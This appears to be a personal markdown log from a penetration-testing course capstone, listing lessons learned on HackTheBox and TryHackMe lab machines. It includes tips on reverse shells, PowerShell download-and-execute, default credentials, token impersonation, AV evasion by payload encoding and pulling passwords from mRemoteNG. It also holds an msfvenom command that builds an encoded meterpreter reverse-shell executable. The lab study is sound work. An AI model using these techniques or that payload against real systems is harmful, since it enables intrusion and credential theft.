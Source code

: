 # Capstone Challenge

### Capstone Overview

Attempt in 24 - 48hrs without help

5 machines (easiest to hardest):

### Arctic (HTB) - Done

Lessons learned:
- Metasploit's web_delivery module is a powerful tool for limited RCE
- Not relevant to the machine, but Impacket's rpcdump is great for RPC enumeration

### Bastard (HTB) - Done

Lessons learned:
- Remember to use 443 for reverse shells
- Work your way through available exploits, if one doesn't work for you try an alternative
- powershell download & execute commands are a powerful way to execute scripts from the attacking machine
- Sherlock.ps1 is very useful

### Alfred (THM) - Done

Lessons learned:
- Try default credentials first (admin:admin, admin:password, etc)
- Use payload encoding to bypass AV
- If you see SeDebugPrivilege and SeImpersonatePrivilege think token abuse (meterpreter incognito)
- If you can't access a file or directory after token impersonation, try migrating to a diferent process

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.10.10 LPORT=443 -f exe -o shell.exe`

### Bastion (HTB) - Done

Lessons learned:
- Check installed programs! (Program Files/(x86))
- mRemoteNG is an easy target for passwords
- Mount SMB shares for easy access when dealing with large files
- guestmount vhd files to find juicy data

`sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd`

### Querier (HTB)


